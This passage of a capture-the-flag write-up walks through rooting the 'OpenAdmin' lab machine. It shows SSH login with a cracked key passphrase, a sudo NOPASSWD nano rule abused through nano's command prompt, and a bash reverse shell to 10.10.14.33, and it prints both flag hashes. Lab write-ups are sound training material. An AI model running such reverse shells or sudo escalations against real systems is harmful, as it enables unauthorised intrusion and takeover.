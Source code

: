 ## Local Privilege Escalation (joanna)
Used joanna's SSH RSA private key to log in.

```
The Password of The Key: bloodninjas
```

```
ssh -l joanna 10.10.10.171 -i ssh/joanna_id_rsa
```

```
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```

## The User Flag
```
joanna@openadmin:~$ ls -l /home/joanna/
total 4
-rw-rw-r-- 1 joanna joanna 33 Nov 28  2019 user.txt
```

```
c9b2cf07d40807e62af62660f0c81b5f
```

## NOPASSWD Nano Executable
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

## Local Privilege Escalation (root)
Executed `/bin/nano /opt/priv` which does not require a password as `root` user based on the `sudoers` rule.

Pressed `^R^X` to open up the command execution prompt in `nano`.

```
Command to execute: /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.33/6666 0>&1"
```

```
root@openadmin:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
2f907ed450b361b2c2bf4e8795d5b561
```
